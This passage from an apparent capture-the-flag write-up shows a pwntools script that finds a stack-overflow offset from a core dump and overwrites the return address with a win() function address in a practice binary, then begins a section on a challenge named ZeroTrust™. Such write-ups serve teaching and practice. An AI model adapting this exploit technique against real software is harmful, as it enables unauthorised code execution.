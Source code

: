 # Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)

### Now that we have our offset, let's exploit the binary ###
# Start up a new process
io = process('./baby_bof_x64') # You could replace this with the remote process

# Get our win() function
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

# Send our payload
io.sendline(payload)
io.interactive()
{{< /highlight >}}

### 3) ZeroTrust™
A 'new' way to authenticate...  
- - -
#### Running the program
Right off the start, we are given the address of the `win()` function again, saving us plenty of time.

#### Debugging the program
Running gdb on the program showed interesting similarities between the binary that we just did, [:baby: BOF 64](#2--bof-64)... Hm, let's try to send the same script with some minor tweaks to adjust to the output of the program.
